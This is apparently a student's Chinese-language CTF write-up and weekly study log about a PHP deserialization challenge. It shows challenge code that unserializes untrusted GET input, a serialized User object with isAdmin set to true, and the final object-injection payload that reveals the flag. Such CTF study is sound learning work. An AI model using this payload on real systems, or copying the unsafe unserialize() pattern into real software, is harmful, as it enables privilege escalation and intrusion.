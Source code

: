 ```php
    }
}

class User {
    public $username;
    public $isAdmin = false;

    public function __construct($username) {
        $this->username = $username;
    }

    public function __wakeup() {
        if ($this->isAdmin) {
            echo "Welcome, admin! Here's your flag: " . (new Flag())->getFlag();
        } else {
            echo "Hello, " . htmlspecialchars($this->username) . "!";
        }
    }
}

if (isset($_GET['data'])) {
    $data = $_GET['data'];

    $object = unserialize($data);
    if ($object instanceof User) {
        echo $object;
    } else {
        echo "Invalid object!";
    }
} else {
    highlight_file(__FILE__);
}


$a=new User("cmd");
$a ->isAdmin=true;
echo urlencode(serialize($a));

```

审计代码，发现是一个反序列化。

当 isAdmin 为 true 时会通过 class Flag 返回 flag，因为存在 wakeup，所以 User

为链子头。

构造 exp 为：

```
$a=new User("cmd");

$a ->isAdmin=true;

echo urlencode(serialize($a));
```

最终payload为：?data=O:4:"User":2:{s:8:"username";s:3:"cmd";s:7:"isAdmin";b:1;}



## 下周目标

1. 开始学习python
2. 继续熟悉一下反序列化
3. 复现isctf的web题



